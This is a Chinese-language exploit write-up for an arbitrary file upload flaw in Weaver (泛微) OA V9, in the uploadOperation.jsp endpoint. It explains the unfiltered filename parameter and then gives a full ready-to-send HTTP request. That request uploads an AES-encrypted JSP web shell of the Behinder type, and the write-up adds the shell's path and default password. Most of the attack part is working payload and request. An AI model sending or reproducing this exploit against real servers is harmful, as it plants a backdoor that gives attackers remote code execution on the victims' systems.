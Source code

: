 # 泛微OA V9 任意文件上传

## 漏洞描述

泛微OA V9 存在文件上传接口导致任意文件上传

## 漏洞影响

> [!NOTE]
>
> 泛微OA V9

## 漏洞复现

漏洞位于: /page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制

![](image/fanwei-14.png)

利用非常简单,只要对着

127.0.0.1/page/exportImport/uploadOperation.jsp

来一个multipartRequest就可以,利用简单,自评高危!!

![](image/fanwei-15.png)

然后请求 然后请求路径:

page/exportImport/fileTransfer/1.jsp

![](image/fanwei-16.png)

请求包

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="peiqi.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

地址: /page/exportImport/fileTransfer/peiqi.jsp

默认密码 rebeyond
